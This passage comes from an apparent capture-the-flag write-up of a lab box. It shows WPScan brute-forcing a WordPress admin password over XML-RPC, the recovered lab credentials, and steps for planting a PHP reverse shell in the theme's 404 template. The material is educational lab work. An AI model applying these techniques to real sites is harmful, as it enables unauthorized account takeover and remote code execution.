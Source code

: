 ```bash
[i] User(s) Identified:

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / my2boys
Trying admin / princess7 Time: 00:04:06 <                                                                                                                                                                                              > (3885 / 14348276)  0.02%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: my2boys

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Dec 31 15:33:36 2023
[+] Requests Done: 3900
[+] Cached Requests: 40
[+] Data Sent: 2.001 MB
[+] Data Received: 2.3 MB
[+] Memory used: 190.441 MB
[+] Elapsed time: 00:04:09
```

Seems like it worked.

![Untitled](https://raw.githubusercontent.com/Blueaulo/Internal-writeup-THM/main/383e5267-e2e0-4d84-a69b-749bf9862c2d_Export-decaaa4d-2c6b-4d4a-b2e6-36c0415c2dd0/Internal%206e6f52af5eac4b2abbad67bc61a655b2/Untitled.png)

Here in the posts tab I can see that there is another post, but they haven’t published it, let’s see what there is into it:

![Untitled](https://raw.githubusercontent.com/Blueaulo/Internal-writeup-THM/main/383e5267-e2e0-4d84-a69b-749bf9862c2d_Export-decaaa4d-2c6b-4d4a-b2e6-36c0415c2dd0/Internal%206e6f52af5eac4b2abbad67bc61a655b2/Untitled%201.png)

Wow, now I have another se of credential:

william:arnold147

I am going to try to enter this in the ssh and phpmyadmin page.

They didn’t work.

Ok, now I am just going to get a reverse shell, from this point is pretty easy.

You just want to go to the Theme Editor, and access the 404 Template, from there you can remove the php code, and plant your php reverse shell:

![Untitled](https://raw.githubusercontent.com/Blueaulo/Internal-writeup-THM/main/383e5267-e2e0-4d84-a69b-749bf9862c2d_Export-decaaa4d-2c6b-4d4a-b2e6-36c0415c2dd0/Internal%206e6f52af5eac4b2abbad67bc61a655b2/Untitled%203.png)

From there I started my listener and got the reverse shell:

![Untitled](https://raw.githubusercontent.com/Blueaulo/Internal-writeup-THM/main/383e5267-e2e0-4d84-a69b-749bf9862c2d_Export-decaaa4d-2c6b-4d4a-b2e6-36c0415c2dd0/Internal%206e6f52af5eac4b2abbad67bc61a655b2/Untitled%204.png)
